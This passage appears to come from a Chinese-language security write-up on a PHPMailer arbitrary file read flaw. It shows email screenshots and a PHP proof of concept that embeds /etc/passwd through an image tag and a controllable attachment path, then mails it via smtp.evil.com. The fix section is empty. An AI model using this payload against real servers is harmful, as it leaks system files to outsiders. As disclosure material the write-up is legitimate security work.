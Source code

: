收到邮件

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWh6Z1Rgibc6dSiahXOricKXbKn9BhPvaZ9GvOJWAkGtkfYTsicNvBacUUu7moPUKx28ZjENEjuCe3dgg/640?wx_fmt=png)

下载后打开

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWh6Z1Rgibc6dSiahXOricKXbKXxlA2tfKv0X2qOyffoyGyyYAFb8Oia9fjggZ4kr4wQCBTJgItuI0ibjg/640?wx_fmt=png)

_**No.4  
**_

_**漏洞 poc**_

  

```
<?php  
# Author:Yxlink
require\_once('PHPMailerAutoload.php');
$mail = new PHPMailer();
$mail->IsSMTP();
$mail->Host = "smtp.evil.com";
$mail->Port = 25;
$mail->SMTPAuth   = true;
 
$mail->CharSet  = "UTF-8";
$mail->Encoding = "base64";
 
$mail->Username = "test@evil.com";  
$mail->Password = "tes1234t";  
$mail->Subject = "hello";
 
$mail->From = "test@evil.com";  
$mail->FromName = "test";  
 
$address = "testtest@test.com";
$mail->AddAddress($address, "test");
 
$mail->AddAttachment('test.txt','test.txt');  //test.txt可控即可任意文件读取 
$mail->IsHTML(true);  
$msg="<img src='/etc/passwd'>test";//邮件内容形如这样写。
$mail->msgHTML($msg);
 
if(!$mail->Send()) {
  echo "Mailer Error: " . $mail->ErrorInfo;
} else {
  echo "Message sent!";
}
?>
```

_**No.5  
**_

_**漏洞修复**_
